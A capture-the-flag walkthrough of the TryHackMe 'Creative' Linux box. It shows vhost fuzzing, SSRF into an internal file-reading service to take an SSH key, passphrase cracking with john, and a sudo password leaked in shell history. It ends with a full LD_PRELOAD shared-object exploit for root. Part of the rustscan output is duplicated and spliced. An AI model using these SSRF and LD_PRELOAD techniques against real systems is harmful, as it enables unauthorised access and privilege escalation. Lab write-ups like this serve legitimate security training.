



<div class="callout callout-info">

**Box Info**

**Platform:** TryHackMe, **OS:** Linux, **Difficulty:** Easy, **IP:** 10.10.133.96 (`creative.thm`)

</div>

<div class="callout callout-abstract">

**Attack Path**

1. Vhost fuzz → `beta.creative.thm`, a "check my URL" tool that fetches a user-supplied URL server-side (**SSRF**).
2. SSRF-scan `127.0.0.1` → an internal service on **1337** that does directory listing / file read. Read `/home/saad/.ssh/id_rsa`.
3. The key is passphrase-protected → `ssh2john` + `john` → `sweetness` → SSH as **saad**.
4. `saad`'s shell history leaks his sudo password (`MyStrongestPasswordYet$4291`).
5. `sudo -l` → `(root) /usr/bin/ping` **with `env_keep+=LD_PRELOAD`** → build a malicious `.so` → `sudo LD_PRELOAD=/tmp/x.so ping` → root.

</div>

---

## Full Walkthrough

### Nmap Scan

```bash
Nmap scan report for creative.thm (10.10.133.96)
Host is up, received user-set (0.13s latency).
Scanned at 2024-07-25 21:17:24 EDT for 24s
Not shown: 998 filtered ports
Reason: 998 no-responses
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Creative Studio | Free Bootstrap 4.3.x template
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
```

### Rust Scan

```bash
└─[$]> rustscan 10.10.133.96 -- -p-                      
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `└─[$]> rustscan 10.10.133.96 -- -p-                      
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
Faster Nmap scanning with Rust.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com

[~] The config file is expected to be at "/home/abadd0n/.config/rustscan/config.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.133.96:80
Open 10.10.133.96:22
-'  `-'`-' `-'
Faster Nmap scanning with Rust.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com

[~] The config file is expected to be at "/home/abadd0n/.config/rustscan/config.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.133.96:80
Open 10.10.133.96:22

```

With only a plain marketing site responding on port 80, my next instinct was to check whether the box was hosting additional virtual hosts behind the scenes, since a single-service nmap result on a box like this usually means the real application is hiding behind a name I have not tried yet. I ran a vhost fuzz against the base domain with `ffuf`, feeding it a Host header wordlist rather than a path wordlist.

```bash
└─[$]> ffuf -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -c -u http://creative.thm  -H "Host: FUZZ.creative.thm" --mc all --fs 178 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://creative.thm
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.creative.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 178
________________________________________________

beta                    [Status: 200, Size: 591, Words: 91, Lines: 20
```

That fuzz turned up a `beta` subdomain, so I added `beta.creative.thm` to my hosts file and went to take a look. The site there is built around a single feature: a form that asks for a URL, which immediately told me the server is fetching that URL on my behalf somewhere in the backend, exactly the kind of functionality I want to test for SSRF. Rather than guessing blind, I captured the request in Burp Suite first so I could see the raw request structure, then stood up a local Python HTTP server and pointed the form at my own IP to see whether the application would actually reach out and touch it. I submitted `http://10.6.59.97:8000/test` and got back a page that just read `Dead`, which on its own did not tell me much, so I went to check my listener.

### Request captured

```bash
POST / HTTP/1.1
Host: beta.creative.thm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 41
Origin: http://beta.creative.thm
Connection: close
Referer: http://beta.creative.thm/
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1

url=http%3A%2F%2F10.6.59.97%3A8000%2Ftest
```

Looking at the captured request, the `url` parameter was the obvious injection point, sitting right there in the POST body as a URL-encoded value. Before testing for SSRF specifically, I wanted to rule out plain command injection as well, in case the backend was shelling out to fetch the URL rather than using a proper HTTP client. In the meantime, though, my Python HTTP server had already started catching something interesting.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/creative] - [Thu Jul 25, 21:11]
└─[$]> python3 -m http.server     
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.133.96 - - [25/Jul/2024 21:21:12] code 404, message File not found
10.10.133.96 - - [25/Jul/2024 21:21:12] "GET /test HTTP/1.1" 404 -
10.10.133.96 - - [25/Jul/2024 21:22:35] code 404, message File not found
10.10.133.96 - - [25/Jul/2024 21:22:35] "GET /test HTTP/1.1" 404 -
10.10.133.96 - - [25/Jul/2024 21:22:35] code 404, message File not found
10.10.133.96 - - [25/Jul/2024 21:22:35] "GET /test HTTP/1.1" 404 -
```

The server kept polling my listener repeatedly, and every so often the request path carried something extra tacked on after the `url` I had originally submitted, which was my first hint that the application was doing more than a single one-shot fetch.

```bash
10.10.133.96 - - [25/Jul/2024 21:23:25] code 404, message File not found
10.10.133.96 - - [25/Jul/2024 21:23:25] "GET /testINJECT_HERE HTTP/1.1" 404 -
10.10.133.96 - - [25/Jul/2024 21:23:25] code 404, message File not found
10.10.133.96 - - [25/Jul/2024 21:23:25] "GET /test HTTP/1.1" 404 -
```

That behavior pointed me toward remote file inclusion rather than command injection, the application appeared to be fetching and possibly including whatever content lived at the URL I gave it. To confirm that theory cleanly, I set up a second listener and served up a distinctive test file to see if its content would surface anywhere in the response.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/creative] - [Thu Jul 25, 21:47]
└─[$]> python3 -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...
10.10.133.96 - - [25/Jul/2024 21:47:36] "GET /poc.html HTTP/1.1" 200 -
```

The proof-of-concept file itself was intentionally simple, just enough to be unmistakable if it showed up somewhere it should not.

```html
<h1>REMOTE FILE INCLUSION!</h1>
```

Sure enough, pointing the form's `url` field at that file confirmed it: my content was being pulled in exactly as expected.



Before committing fully to the SSRF angle, I circled back and gave command injection one more serious attempt, just to be thorough and rule it out with an actual payload list rather than a guess.

```bash
└─[$]> ffuf -w /usr/share/SecLists/Fuzzing/command-injection-commix.txt -u http://beta.creative.thm/ -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "url=FUZZ" -fw 3

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : POST
 :: URL              : http://beta.creative.thm/
 :: Wordlist         : FUZZ: /usr/share/SecLists/Fuzzing/command-injection-commix.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : url=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response words: 3
________________________________________________

[WARN] Caught keyboard interrupt (Ctrl-C)
```

That fuzz came back empty, which confirmed command injection was not the way in here. With the remote file inclusion behavior already confirmed, my attention turned fully to SSRF, and specifically to using that server-side fetch as a way to probe ports that were not exposed externally. My first attempt was to reach for `ssrfmap` to automate a port scan through the vulnerable parameter, but it kept throwing errors against this target, so rather than fight the tool, I fell back to something I trust more directly: driving the scan myself with `ffuf`.

```bash
seq 0 99999 > ports.lst 
```

```bash
└─[$]> ffuf -w ports.lst -u http://beta.creative.thm/ -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "url=http://127.0.0.1:FUZZ" --fw 3

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : POST
 :: URL              : http://beta.creative.thm/
 :: Wordlist         : FUZZ: ports.lst
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : url=http://127.0.0.1:FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response words: 3
________________________________________________

0                       [Status: 200, Size: 37589, Words: 14867, Lines: 686]
80                      [Status: 200, Size: 37589, Words: 14867, Lines: 686]
1337                    [Status: 200, Size: 1143, Words: 40, Lines: 39]
```

Sweeping the full local port range this way turned up something worth chasing: alongside the expected web ports, port `1337` responded differently from the noise around it, which made it my next target to poke through the `url` field directly.



That was exactly the kind of result I was hoping for, an internal service handing back a directory listing, reachable only because the vulnerable server was making the request on my behalf.

From there it was just a matter of walking that listing and requesting paths of interest through the SSRF, and it did not take long before I found my way to `saad`'s SSH private key.

```bash
http://127.0.0.1:1337/home/saad/.ssh/id_rsa
```



```bash
└─[$]> ssh -i id_rsa saad@creative.thm
Enter passphrase for key 'id_rsa': 
```

Trying to use the key directly, I hit a passphrase prompt, which meant the key itself was of no use to me until I cracked whatever protected it. `ssh2john` converts a protected private key into a crackable hash format, and from there I handed it straight to `john` against `rockyou.txt`.

```bash
ssh2john id_rsa > hash

└─[$]> john --wordlist=/usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt ./hash  
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
sweetness        (id_rsa)     
1g 0:00:00:29 DONE (2024-07-25 22:14) 0.03435g/s 32.97p/s 32.97c/s 32.97C/s xbox360..sandy
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

`john` cracked the passphrase to `sweetness` in under thirty seconds, which was enough to unlock the key and log in over SSH as `saad`. With a proper shell in hand, my next step was automated enumeration rather than manually poking around, so I dropped `linpeas` on the box to surface anything obviously worth chasing for privilege escalation.

### Linpeas

```bash

╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports
tcp       84      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      688/python3         
tcp6       0      0 :::22                   :::*                    LISTEN      -        


╔══════════╣ Useful software
/usr/bin/base64
/usr/bin/curl
/usr/bin/g++
/usr/bin/gcc
/snap/bin/lxc
/usr/bin/make
/usr/bin/nc
/usr/bin/netcat
/usr/bin/perl
/usr/bin/ping
/usr/bin/python3
/usr/bin/sudo
/usr/bin/wget


╔══════════╣ Searching root files in home dirs (limit 30)
/home/
/home/saad/start_server.py
/root/
/var/www
/var/www/project
/var/www/project/__pycache__
/var/www/project/__pycache__/app.cpython-310.pyc
/var/www/project/__pycache__/wsgi.cpython-38.pyc
/var/www/project/__pycache__/flaskapp.cpython-38.pyc
/var/www/project/venv
/var/www/project/venv/bin
/var/www/project/venv/bin/Activate.ps1
/var/www/project/venv/bin/activate
/var/www/project/venv/bin/easy_install-3.8
/var/www/project/venv/bin/activate.fish
/var/www/project/venv/bin/python3
/var/www/project/venv/bin/flask
/var/www/project/venv/bin/gunicorn
/var/www/project/venv/bin/wheel
/var/www/project/venv/bin/normalizer
/var/www/project/venv/bin/pip
/var/www/project/venv/bin/easy_install
/var/www/project/venv/bin/pip3
/var/www/project/venv/bin/pip3.8
/var/www/project/venv/bin/python
/var/www/project/venv/bin/activate.csh
/var/www/project/venv/lib64
/var/www/project/venv/share
/var/www/project/venv/share/python-wheels
/var/www/project/venv/share/python-wheels/progress-1.5-py2.py3-none-any.whl


╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files
/dev/mqueue
/dev/shm
/home/saad
/run/lock
/run/screen
/run/user/1000
/run/user/1000/dbus-1
/run/user/1000/dbus-1/services
/run/user/1000/gnupg
/run/user/1000/inaccessible
/run/user/1000/systemd
/run/user/1000/systemd/transient
/run/user/1000/systemd/units
/snap/core20/1879/run/lock
/snap/core20/1879/tmp
/snap/core20/1879/var/tmp
/snap/core20/2015/run/lock
/snap/core20/2015/tmp
/snap/core20/2015/var/tmp
/tmp
/tmp/.font-unix
/tmp/.ICE-unix
/tmp/.Test-unix
/tmp/tmux-1000
/tmp/.X11-unix
#)You_can_write_even_more_files_inside_last_directory

/var/crash
/var/tmp


╔══════════╣ Executable files potentially added by user (limit 70)
2023-05-09+17:40:51.6100169630 /var/www/project/venv/bin/activate.csh
2023-05-09+17:40:29.2061365110 /var/www/project/venv/bin/pip3.8
2023-05-09+17:40:19.5901879590 /var/www/project/venv/bin/pip3
2023-05-09+17:40:09.5622417170 /var/www/project/venv/bin/easy_install
2023-05-09+17:40:00.7342891290 /var/www/project/venv/bin/pip
2023-05-09+17:39:50.9143419510 /var/www/project/venv/bin/normalizer
2023-05-09+17:39:40.6583972350 /var/www/project/venv/bin/wheel
2023-05-09+17:39:29.9464551070 /var/www/project/venv/bin/gunicorn
2023-05-09+17:39:17.5065224500 /var/www/project/venv/bin/flask
2023-05-09+17:39:00.4586150200 /var/www/project/venv/bin/activate.fish
2023-05-09+17:38:32.3987681060 /var/www/project/venv/bin/easy_install-3.8
2023-05-09+17:38:08.2749004910 /var/www/project/venv/bin/activate
2023-01-20+17:59:52.7658969930 /home/saad/start_server.py
2023-01-20+12:49:49.3719936390 /var/www/project/static/index.html
2023-01-20+11:09:55.1557700900 /var/www/project/__pycache__/wsgi.cpython-38.pyc
2023-01-20+11:09:20.0689897230 /var/www/project/wsgi.py
2023-01-20+10:59:32.9438092170 /var/www/project/venv/bin/Activate.ps1
2023-01-20+10:59:31.7438430940 /var/www/project/venv/pyvenv.cfg


╔══════════╣ Readable files inside /tmp, /var/tmp, /private/tmp, /private/var/at/tmp, /private/var/tmp, and backup folders (limit 70)
-rw-r--r-- 1 root root 51200 May 11  2023 /var/backups/alternatives.tar.0

╔══════════╣ Searching passwords in history files
sudo -l
echo "saad:MyStrongestPasswordYet$4291" > creds.txt
sudo -l
sudo -l
mysql -u root -p
mysql -u root
sudo su
ssh root@192.169.155.104
mysql -u user -p
mysql -u db_user -p
ls -ld /var/lib/mysql


```

The most useful thing `linpeas` turned up was not a binary or a misconfigured file, it was `saad`'s own shell history, which had a plaintext sudo password sitting in it from an earlier `echo` command he had apparently run while setting something up. Credentials like that are exactly why I always check history files, `.bash_history` in particular is a goldmine of things people meant to be temporary. With that password in hand, checking `sudo -l` was the obvious next move.

```bash
saad@m4lware:~$ sudo -l
[sudo] password for saad: 
Matching Defaults entries for saad on m4lware:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User saad may run the following commands on m4lware:
    (root) /usr/bin/ping
```

What caught my eye in that output was not the `ping` binary itself, `ping` running as root under `sudo` is common and usually harmless, but the `env_keep+=LD_PRELOAD` entry sitting in the sudoers defaults right above it. That setting tells `sudo` to preserve the `LD_PRELOAD` environment variable across the privilege boundary instead of stripping it, which is a well known privilege escalation primitive: if I can get the dynamic linker to load a shared object of my choosing before `ping` runs, that code executes with root's privileges the instant the binary starts. I put together a small shared library to take advantage of exactly that.


```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
        unsetenv("LD_PRELOAD");
        setgid(0);
        setuid(0);
        system("/bin/sh");
}
```

I leaned on this reference to make sure my constructor function was structured correctly: https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/

The `_init` function fires automatically the moment the shared object is loaded, before `ping` even gets to its own main logic, so dropping a `setuid(0)`/`setgid(0)` and spawning a shell there gives me a root shell before the binary has done anything else at all. Compiling it as a position-independent shared object and pointing `LD_PRELOAD` at it on a `sudo` invocation was all that was left to do.

```bash
saad@m4lware:~$ gcc -fPIC -shared -o privesc.so privesc.c -nostartfiles
privesc.c: In function ‘_init’:
privesc.c:6:2: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    6 |  setgid(0);
      |  ^~~~~~
privesc.c:7:2: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    7 |  setuid(0);
      |  ^~~~~~
saad@m4lware:~$ mv privesc.so /tmp/
saad@m4lware:~$ sudo LD_PRELOAD=/tmp/privesc.so ping
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

The moment `ping` loaded my library under `sudo`, it dropped me straight into a root shell, confirmed by `id` reporting `uid=0(root)`. That closed out the box: an SSRF that turned into remote file inclusion, a leaked SSH key I had to crack, a password left behind in shell history, and a classic `LD_PRELOAD` privilege escalation to finish it off.
